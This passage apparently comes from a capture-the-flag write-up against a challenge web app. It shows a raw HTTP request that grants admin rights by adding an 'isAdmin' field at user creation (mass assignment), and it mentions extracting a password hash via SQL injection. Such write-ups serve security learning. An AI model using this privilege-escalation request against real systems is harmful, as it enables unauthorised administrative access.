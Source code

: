 4. Use SQLi to extract the admin hash from the database and crack it, however this may take a very long time if it's been generated securely.

I decide to start with #1 as it's the probably the easiest to try, and fastest to fail. I attempt to create a user manually, while adding an `isAdmin` parameter as `1`:

```
POST /v1/users HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz

{"username":"user2","password":"asdfasdf1!","isAdmin":1}
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "id": 5,
            "username": "user2",
            "isAdmin": 1,
            "hash": "18f1cf9d1dccf7930494f1d09298ac5b"
        }
    ]
}
```

After logging into the application with this user I am indeed an admin.

I'm sure there are other ways in but we'll go with this one for now.

This added some fields to the dropdown menu on the top left, primarily `Admin Tools` and `Server Stats`.

![](./images/dropdown.png)

As the flag I'm currently looking for is called `Status` I figure `Stats` is potentially a good place to start, despite how tempting that `Admin Tools` section is.

After clicking it I'm redirected to `https://aura-stats.sot2021.aurahacks.co.nz/`, which returns a DNS error. I validate using `dig` and there's no dns set for this, unlike the other two domains:

```
$ dig +noall +question +answer aura-tickets.sot2021.aurahacks.co.nz aura-api.sot2021.aurahacks.co.nz aura-stats.sot2021.aurahacks.co.nz

;aura-tickets.sot2021.aurahacks.co.nz. IN A
aura-tickets.sot2021.aurahacks.co.nz. 509 IN A  3.25.134.159
;aura-api.sot2021.aurahacks.co.nz. IN   A
aura-api.sot2021.aurahacks.co.nz. 530 IN A      3.25.134.159
;aura-stats.sot2021.aurahacks.co.nz. IN  A
```
